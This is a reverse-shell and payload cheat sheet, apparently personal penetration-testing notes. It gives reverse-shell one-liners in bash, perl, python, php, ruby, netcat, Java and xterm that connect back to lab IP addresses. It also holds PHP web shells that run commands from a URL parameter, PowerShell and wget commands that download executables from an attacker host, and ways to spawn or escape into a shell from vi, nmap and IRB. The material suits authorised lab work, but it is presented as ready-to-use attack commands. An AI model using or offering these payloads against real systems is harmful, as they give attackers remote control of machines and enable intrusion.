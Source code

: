 ```bash -i >& /dev/tcp/10.11.0.130/443 0>&1```

```
perl -e 'use Socket;$i="10.11.0.130";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.0.185",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
```php -r '$sock=fsockopen("10.11.0.185",1234);exec("/bin/sh -i <&3 >&3 2>&3");'```

```ruby -rsocket -e'f=TCPSocket.open("10.11.0.185",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d2>&%d",f,f,f)'```

```nc -e /bin/sh 10.11.0.130 443```
```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.130 443 >/tmp/f```

https://highon.coffee/blog/reverse-shell-cheat-sheet/

#### PHP
```<?php echo shell_exec($_GET['cmd']);?>```

```<?php system($_GET['cmd']);?>```

#### JAVA
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line
2>&5 >&5; done"] as String[])
p.waitFor()
```
#### xterm
One of the simplest forms of reverse shell is an xterm session. The following command should
be run on the server. It will try to connect back to you (10.0.0.1) on TCP port 6001.
```xterm -display 10.0.0.1:1```
To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001). 
One way to do this is with Xnest (to be run on your system):
```Xnest :1```
You’ll need to authorise the target to connect to you (command also run on your host):

```xhost +targetip```

#### Powershell
Powershell 2
```(new-object System.Net.WebClient).Downloadfile("http://10.11.0.185/accesschk.exe","C:\lec\accesschk.exe")```

#### Powershell 3
```Invoke-WebRequest "http://10.11.0.130/adfsys.exe" -OutFile "adfsys.exe"```

```Wget/fetch```

```Wget http://10.11.0.130/test.txt -o C:\temp\test.txt```

#### Shell Escape; from Shellcatraz
#### Shell Spawning
```
python -c 'import pty; pty.spawn("/bin/sh")'
echo os.system('/bin/bash')
/bin/sh -i
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
(From within IRB)
exec "/bin/sh"
(From within vi)
:!bash
(From within vi)
:set shell=/bin/bash:shell
(From within nmap)
!sh
``
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
